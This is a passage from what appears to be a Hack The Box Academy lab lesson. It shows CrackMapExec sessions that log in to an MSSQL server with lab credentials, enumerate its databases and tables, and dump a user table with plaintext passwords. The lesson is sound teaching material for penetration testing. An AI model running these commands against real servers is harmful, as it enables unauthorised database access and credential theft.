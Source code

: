 ```shell-session
MSSQL       10.129.203.121  1433   DC01             msdb
MSSQL       10.129.203.121  1433   DC01             core_app
MSSQL       10.129.203.121  1433   DC01             core_business
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from core_app.INFORMATION_SCHEMA.TABLES" 
MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             table_name
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------------------------------------------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             tbl_users
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from [core_app].[dbo].tbl_users" 

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             id_user
MSSQL       10.129.203.121  1433   DC01             name
MSSQL       10.129.203.121  1433   DC01             lastname
MSSQL       10.129.203.121  1433   DC01             username
MSSQL       10.129.203.121  1433   DC01             password
MSSQL       10.129.203.121  1433   DC01             -----------
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             1
MSSQL       10.129.203.121  1433   DC01             b'Josh'
MSSQL       10.129.203.121  1433   DC01             b'Matt'
MSSQL       10.129.203.121  1433   DC01             b'josematt'
MSSQL       10.129.203.121  1433   DC01             b'Testing123'
MSSQL       10.129.203.121  1433   DC01             2
MSSQL       10.129.203.121  1433   DC01             b'Elie'
MSSQL       10.129.203.121  1433   DC01             b'Cart'
MSSQL       10.129.203.121  1433   DC01             b'eliecart'
MSSQL       10.129.203.121  1433   DC01             b'Motor999'
```

We performed some database queries to list databases, tables, and content. To learn more about how to enumerate databases using SQL queries, we can read the section [Attacking SQL Databases](https://academy.hackthebox.com/module/116/section/1169) from [Attacking Common Services](https://academy.hackthebox.com/module/details/116) module.
